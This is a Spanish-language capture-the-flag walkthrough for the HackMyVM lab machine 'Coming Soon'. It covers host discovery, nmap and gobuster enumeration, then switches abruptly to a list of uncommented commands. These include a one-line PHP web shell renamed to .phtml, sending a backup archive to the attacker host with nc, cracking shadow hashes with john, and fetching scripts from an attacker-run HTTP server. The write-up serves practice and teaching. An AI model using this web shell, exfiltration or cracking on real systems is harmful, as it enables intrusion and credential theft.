 
![image](https://github.com/x4nderht/CTFs/blob/7475e71418d1d894c16c0ab7cef09335f994551e/HackMeVM/ComingSoon/imgs/comingsoon-banner.png)

[Maquina](https://hackmyvm.eu/machines/machine.php?vm=Comingsoon)   \   [HackMeVM](https://hackmyvm.eu/)


## Descubrimiento
Primeramente, comenzamos descubriendo cual es la **IP** de la maquina vulnerable, para ello, podemos hacer uso de herramientas como `arp` o `nmap`.

Con `arp` podemos hacer uso del parametro `-a` para listar las *IPs* y *direcciones MAC* de los dispositivos recientemente conectados.
```shell
arp -a
____________
...
? (10.10.10.6) at 08:00:27:67:5e:78 [ether] on eth0
...
```
Con `nmap` podemos hacer uso del parametro `-sn` con la direccion que representa a la red que en mi caso es la `10.10.10.0` junto con un `/24` que es una notacion en *CIDR* que representa el rango de *IPs* que abarca desde **10.10.10.1** hasta la **10.10.10.254**. Esto hara que `nmap` envie paquetes *ICMP* a cada direccion *IP* del rango antes mecionado, en caso de que una IP envie de regreso un paquete *ICMP* o una respuesta de *TCP/ACK*, nmap considera que el dispositivo esta activo.
```shell
nmap -sn 10.10.10.0/24
__________________________________________
...
Nmap scan report for 10.10.10.6
Host is up (0.0013s latency).
MAC Address: 08:00:27:67:5E:78 (Oracle VirtualBox virtual NIC)
...
```
Al nosotros conocer cual es la direccion **IP** de nuestra maquina vulnerable que, en mi caso, es la **IP** `10.10.10.6` podemos dar comienzo a la fase de escaneo de puertos.



## Reconocimiento
Comenzamos con un escaneo de `nmap` a todos los puertos de la maquina vulnerable en busca de puertos abiertos.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv 10.10.10.6 -oG allPorts
________________________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

Nmap nos reporta que los puertos ***22*** y ***80*** estan abiertos. El puerto **22** corresponde al servicio de conexiones via `ssh` o *Secure Shell* que es un protocolo de red que permite acceder y administrar de forma remota otros dispositivos de manera segura. Por otro lado, el puerto **80**, es un puerto por defecto que corresponde a un servicio `http`(Hyper Text Transfer Protocol) o a un servicio web en otras palabras.

Podriamos tratar de conseguir solo una de las dos credenciales necesarias para ingresar a la maquina por `SSH` con fuerza bruta pero, sigamos recopilando informacion.

Ahora hacemos un segundo escaneo con `nmap` sobre este puerto abierto con un conjunto de scripts basicos de reconocimientos que trae por defecto nmap con el parametro `-sC` que nos brindara informacion y detalles sobre los puertos, he incluimos el parametro `-sV` para que nos detecte la version del servicio que corre en dicho puerto. Estos dos se pueden escribir como `-sCV`.

```shell
nmap -p22,80 -sCV 10.10.10.6 -oN targeted
_________________________________________________________________
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 bc:fb:ec:b8:93:d4:e2:78:76:eb:1b:dc:4b:a7:7f:9b (RSA)
|   256 31:41:a0:d7:e9:3c:79:11:c2:f0:81:a0:fe:2d:f9:b0 (ECDSA)
|_  256 c9:34:17:00:31:75:4d:c0:3a:a5:b1:16:36:0d:bb:18 (ED25519)
80/tcp open  http    Apache httpd 2.4.51 ((Debian))
|_http-title: Bolt - Coming Soon Template
|_http-serve r-header: Apache/2.4.51 (Debian)

```
Nmap no nos reporta mucha informacion relevante por lo que abriremos nuestro navegador y colocaremos la *IP* de la maquina vulnerable para poder visualizar la pagina web que corre dentro de la maquina y buscar posibles vectores de ataque.
![image](https://github.com/x4nderht/CTFs/blob/7475e71418d1d894c16c0ab7cef09335f994551e/HackMeVM/ComingSoon/imgs/comingsoon-1.png)

Dentro de la web y en su codigo no encontramos nada interesante.

Usamos `whatweb` para ver las tecnologias y las versiones de estas que son usadas en la pagina web y poder determinar si alguna de estas se encuentra desactualizada y si contiene alguna vulnerabilidad conocida.
```shell
whatweb 10.10.10.6
____________________________________
http://10.10.10.6 [200 OK] Apache[2.4.51], Bootstrap, Cookies[RW5hYmxlVXBsb2FkZXIK], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.51 (Debian)], IP[10.10.10.6], JQuery, Script[text/javascript], Title[Bolt - Coming Soon Template]

```
Con `whatweb` tampoco nos encontramos con algo interesante asi que haremos uso de `gobuster` para buscar directorios y archivos que se encuentran alojadas en el mismo servidor *http*.

Con el parametro `-x` le indicamos a `gobuster` que tipo de extensiones de archivos deceamos comprobar su existencia usando del mismo diccionario que se usara para descubrir los posibles directorios, indicado por el parametro `-w`, y con `--url` le indicamos la direccion de la pagina web.
```shell
 gobuster dir --url http://10.10.10.6 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x xml,txt,php,html
____________________________________________________________________________________________________
...
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 3988]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/assets               (Status: 301) [Size: 309] [--> http://10.10.10.6/assets/]
/license.txt          (Status: 200) [Size: 528]
/notes.txt            (Status: 200) [Size: 279]
...
```

```shell
echo "<?php system(\$_GET['cmd']); ?>" >> image.php
```

```shell
mv image.php image.phtml
```

```shell
find / -name backups\*
```

```shell
find / -name backups\* 2>/dev/null
```

```shell
nc 10.10.10.4 < backup.tar.gz
```

```shell
nc -nlvp 444 > backup.tar.gz
```

```shell
tar -xvzf backup.tar.gz
```

```shell
unshadow passwd shadow > ./unshadow
```

```shell
john --wordlist=/usr/share/wordlists/rockyou.txt ./unshadow --format=crypt
```

```shell
curl -O https://raw.githubusercontent.com/therealtomkraz/ctfscripts/main/top_100_animated_movies.txt
```
```shell
curl -O https://raw.githubusercontent.com/therealtomkraz/ctfscripts/main/verifysuroot.py
```

```shell
python3 -m http.server
```

```shell
curl -O http://10.10.10.4:8000/top_ten_animated_movies.txt
```
```shell
curl -O http://10.10.10.4:8000/verifysuroot.py
```






